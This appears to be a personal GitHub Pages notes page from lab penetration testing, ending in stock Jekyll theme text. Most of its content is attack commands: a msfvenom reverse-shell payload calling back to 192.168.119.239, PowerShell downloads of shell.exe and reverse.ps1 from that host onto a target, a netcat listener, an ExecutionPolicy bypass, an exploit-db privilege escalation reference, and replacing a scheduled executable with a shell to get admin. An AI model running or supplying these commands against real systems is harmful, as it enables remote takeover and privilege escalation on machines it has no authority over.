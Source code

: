 ## powershell
```bash

1. msfvenom --platform Windows -f exe -p windows/x64/shell_reverse_tcp LHOST=192.168.119.239 LPORT=6565 -o shell.exe
- Copy shell.exe to web server

2. Download shell.exe to Bethany
Powershell -c "Invoke-WebRequest -Uri http://192.168.119.239:7878/shell.exe -OutFile C:\Users\Public\shell.exe"

3. Download reverse.ps1 to Bethany
Powershell -c "Invoke-WebRequest -Uri http://192.168.119.239:7878/reverse.ps1 -OutFile C:\Users\Public\reverse.ps1"

4. nc -nlvp 6565

5. C:\Users\Public>powershell -ExecutionPolicy Bypass -File c:\users\public\reverse.ps1

Elevate to admin user
```
### Iperius Backup 6.1.0 - Privilege Escalation
Scenario: On a VNC accessible machine this service is running. Use the exploit [46863](https://www.exploit-db.com/exploits/46863) in exploitdb.

### SystemScheduler
Inside c:\Program Files (x86)\SystemScheduler we can found a list of application scheduled. It is observed that details logs in c:\Program Files (x86)\SystemScheduler/events. 08/29/2020  07:15 AM            16,107 20198415519.INI_LOG.txt Here in this scenario, message.exe we can overwrite it. Possible DLL hijacking. Create shell.exe and overwrite message.exe with shell.exe. You will get admin reverse shell.

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/dayaramb/dayaramb.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
